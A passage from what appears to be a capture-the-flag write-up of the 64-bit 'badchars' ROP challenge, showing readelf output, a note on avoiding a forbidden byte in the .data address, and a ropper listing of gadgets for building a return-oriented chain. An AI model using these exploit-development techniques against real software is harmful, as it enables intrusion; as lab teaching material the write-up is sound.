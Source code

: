 ## 64-bit ##

Just like before, let's get our necessary addresses and let's make sure they do not have any bad characters:

```
voidwalker@Abyss:[badcharsx64]** readelf -S badchars | grep .data
  [15] .rodata           PROGBITS         00000000004006c0  000006c0
  [23] .data             PROGBITS         0000000000601028  00001028
voidwalker@Abyss:[badcharsx64]** readelf -r badchars | grep print_file
000000601020  000400000007 R_X86_64_JUMP_SLO 0000000000000000 print_file + 0
```

Good news! Looks like they don't! Except if we use the first 8 bytes of ```.data```. You can notice that the 7th byte of ```.data``` contains ```0x2e``` in its address, which is forbidden. Luckily, we can easily bypass this by starting to write after the 7th byte!
Alright, now let's find some suitable ROP gadgets:
```
voidwalker@Abyss:[badcharsx64]** ropper --file ./badchars --search "mov|pop|xor"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov|pop|xor

[INFO] File: ./badchars
0x00000000004005e2: mov byte ptr [rip + 0x200a4f], 1; pop rbp; ret;
0x0000000000400606: mov dword ptr [rbp + 0x48], edx; mov ebp, esp; call 0x500; mov eax, 0; pop rbp; ret;
0x0000000000400635: mov dword ptr [rbp], esp; ret;
0x0000000000400610: mov eax, 0; pop rbp; ret;
0x00000000004004dd: mov eax, dword ptr [rip + 0x200b15]; test rax, rax; je 0x4ea; call rax;
0x00000000004004dd: mov eax, dword ptr [rip + 0x200b15]; test rax, rax; je 0x4ea; call rax; add rsp, 8; ret;
0x0000000000400609: mov ebp, esp; call 0x500; mov eax, 0; pop rbp; ret;
0x00000000004005db: mov ebp, esp; call 0x560; mov byte ptr [rip + 0x200a4f], 1; pop rbp; ret;
0x0000000000400619: mov ebp, esp; mov edi, 0x4006c4; call 0x510; nop; pop rbp; ret;
0x000000000040061b: mov edi, 0x4006c4; call 0x510; nop; pop rbp; ret;
0x000000000040057c: mov edi, 0x601038; jmp rax;
0x0000000000400634: mov qword ptr [r13], r12; ret;
0x00000000004004dc: mov rax, qword ptr [rip + 0x200b15]; test rax, rax; je 0x4ea; call rax;
0x00000000004004dc: mov rax, qword ptr [rip + 0x200b15]; test rax, rax; je 0x4ea; call rax; add rsp, 8; ret;
0x0000000000400608: mov rbp, rsp; call 0x500; mov eax, 0; pop rbp; ret;
0x00000000004005da: mov rbp, rsp; call 0x560; mov byte ptr [rip + 0x200a4f], 1; pop rbp; ret;
0x0000000000400618: mov rbp, rsp; mov edi, 0x4006c4; call 0x510; nop; pop rbp; ret;
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040069e: pop r13; pop r14; pop r15; ret;
0x00000000004006a0: pop r14; pop r15; ret;
0x00000000004006a2: pop r15; ret;
0x000000000040057b: pop rbp; mov edi, 0x601038; jmp rax;
0x000000000040069b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040069f: pop rbp; pop r14; pop r15; ret;
0x0000000000400588: pop rbp; ret;
0x00000000004006a3: pop rdi; ret;
0x00000000004006a1: pop rsi; pop r15; ret;
0x000000000040069d: pop rsp; pop r13; pop r14; pop r15; ret;
0x0000000000400628: xor byte ptr [r15], r14b; ret;
0x0000000000400629: xor byte ptr [rdi], dh; ret;
```
